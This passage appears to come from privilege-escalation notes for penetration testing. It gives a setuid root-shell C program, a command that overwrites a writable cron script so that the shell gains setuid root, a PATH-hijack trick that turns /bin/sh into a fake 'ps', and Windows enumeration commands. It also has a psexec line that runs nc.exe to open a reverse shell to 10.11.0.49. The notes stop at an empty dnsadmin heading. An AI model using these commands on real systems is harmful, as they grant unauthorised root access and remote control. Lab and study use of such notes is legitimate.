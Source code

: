It shows some file which can be write.
```
$ cat /tmp/rootme.c
int main(void)
{
setgid(0);
setuid(0);
execl("/bin/sh", "sh", 0);
}
```
```
$ echo "chown root:root /tmp/rootme; chmod u+s /tmp/rootme;">/usr/local/sbin/cron-logrotate.sh
$ ls -la rootme
$ ./rootme
```
#### User PATH contain "."
Having "." In user path means the user is able to execute **binary/script** from the current directory.

If user path contain "." - program
If user path not contain "." -  ./program

Now we found /home/raj/script/shell having suid permissions, and the shell is run a ps program.
```
$ cd /home/raj/script/
$ cp /bin/sh /tmp/ps
$ export PATH=/tmp:$PATH
$ ./shell
```
![](https://i.imgur.com/vFbAj1A.png)
### Windows
#### Information
* get version
```
$ systeminfo
```
* service
```
$ tasklist
```
* show all folder
```
$ dir /a
```
#### psexec
* psexec
```
$ psexec -u alice -p aliceishere "c:\Users\Public\nc.exe" 10.11.0.49 5555 -e cmd.exe
```
#### dnsadmin
If user in "dnsadmin" group/domain, then it can use the below command to priv esc.
